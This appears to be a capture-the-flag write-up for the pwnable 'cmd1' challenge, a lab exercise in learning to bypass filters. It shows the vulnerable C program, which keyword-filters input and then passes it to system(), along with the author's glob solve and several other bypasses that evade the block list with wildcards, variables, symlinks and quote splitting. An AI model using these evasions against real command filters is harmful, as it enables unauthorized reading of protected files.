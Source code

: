 cmd1


cmd1@pwnable:~$ ./cmd1 ls
sh: 1: ls: not found
cmd1@pwnable:~$ ./cmd1 /bin/ls
cmd1  cmd1.c  flag
cmd1@pwnable:~$ ./cmd1 /bin/python
sh: 1: /bin/python: not found
cmd1@pwnable:~$ bat
The program 'bat' can be found in the following packages:
 * bacula-console-qt
 * bareos-bat
Ask your administrator to install one of them
cmd1@pwnable:~$ ./cmd1 "/bin/cat cmd1.c"
#include <stdio.h>
#include <string.h>

int filter(char* cmd){
        int r=0;
        r += strstr(cmd, "flag")!=0;
        r += strstr(cmd, "sh")!=0;
        r += strstr(cmd, "tmp")!=0;
        return r;
}
int main(int argc, char* argv[], char** envp){
        putenv("PATH=/thankyouverymuch");
        if(filter(argv[1])) return 0;
        system( argv[1] );
        return 0;
}

My solve:
cmd1@pwnable:~$ ./cmd1 "/bin/cat *lag"
mommy now I get what PATH environment is for :)


some interesting solves from the writeups:
export f=flag ; ./cmd1 "/bin/cat \$f"

mkdir /tmp/99991111 
cd /tmp/99991111
ln -s /home/cmd1/flag ./symlink_file
/home/cmd1/cmd1 '/bin/cat ./symlink_file'

./cmd1 '/bin/cat fl""ag'

./cmd1 "/bin/cat 'f' 'l' 'a' 'g'"